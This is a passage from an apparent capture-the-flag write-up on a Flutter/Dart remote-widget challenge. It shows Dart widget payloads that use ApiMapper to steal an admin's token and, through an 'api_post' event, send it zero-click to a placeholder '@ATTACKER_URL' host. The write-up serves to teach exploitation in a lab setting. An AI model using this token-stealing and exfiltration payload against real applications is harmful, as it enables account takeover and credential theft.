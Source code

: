 ```dart
```

There were still a few problems with this, though. The `/api/flag` endpoint requires a POST request, and `ApiMapper` only does GET requests. Additionally, we needed to make this zero-click.

The first part was simple enough - we just needed to steal the admin's token to authenticate as the admin, so something like this works:

```dart
ApiMapper(
    url: '/api/token',
    jsonKey: 'new_token',
    dataKey: 'token',
    onLoaded: set state.loaded = true
)
```

Next, the `onLoaded` event handler could be used to trigger the `api_post` event for zero-click exfiltration. But this was a bit iffy and only worked in some scenarios, such as the following one.

```dart
import local;
import core.widgets;

widget root { loaded: false }= Container(
    child:
      switch state.loaded {
          true:
              Column(
                children: [
                  Row(children: 
                    Center(children:
                      [
                        Text(text: data.token, textDirection: "ltr"),
                      ]
                    )
                  ),
                  ApiMapper(
                    url: '/api/token',
                    jsonKey: 'new_token',
                    dataKey: 'token',
                    onLoaded: event 'api_post' {
                      path: '@ATTACKER_URL',
                      body: {selection: data.token}
                    }
                  )
                ]
              ),
          false:
              ApiMapper(
                  url: '/api/token',
                  jsonKey: 'new_token',
                  dataKey: 'token',
                  onLoaded: set state.loaded = true
              )
      }
    
);

```

For example, here's me getting my own token.

![](<../.gitbook/assets/image (84).png>)

After getting the admin's token, we just needed to get the flag from `/api/flag`.
